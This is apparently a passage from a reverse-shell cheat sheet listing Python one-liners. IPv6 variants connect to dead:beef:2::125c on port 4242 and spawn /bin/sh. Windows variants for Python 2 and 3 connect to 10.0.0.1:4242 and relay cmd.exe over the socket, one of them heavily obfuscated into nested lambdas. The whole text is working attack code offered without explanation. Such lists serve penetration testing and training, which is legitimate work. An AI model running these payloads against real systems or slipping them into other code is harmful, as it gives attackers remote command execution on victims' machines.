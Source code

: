 IPv6
```python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

IPv6 (No Spaces)
```python
python -c 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

IPv6 (No Spaces, Shortened)
```python
python -c 'a=__import__;c=a("socket");o=a("os").dup2;p=a("pty").spawn;s=c.socket(c.AF_INET6,c.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));f=s.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
```

Windows only (Python2)

```powershell
python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 4242)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

Windows only (Python3)

```powershell
python.exe -c "import socket,os,threading,subprocess as sp;p=sp.Popen(['cmd.exe'],stdin=sp.PIPE,stdout=sp.PIPE,stderr=sp.STDOUT);s=socket.socket();s.connect(('10.0.0.1',4242));threading.Thread(target=exec,args=(\"while(True):o=os.read(p.stdout.fileno(),1024);s.send(o)\",globals()),daemon=True).start();threading.Thread(target=exec,args=(\"while(True):i=s.recv(1024);os.write(p.stdin.fileno(),i)\",globals())).start()"
```
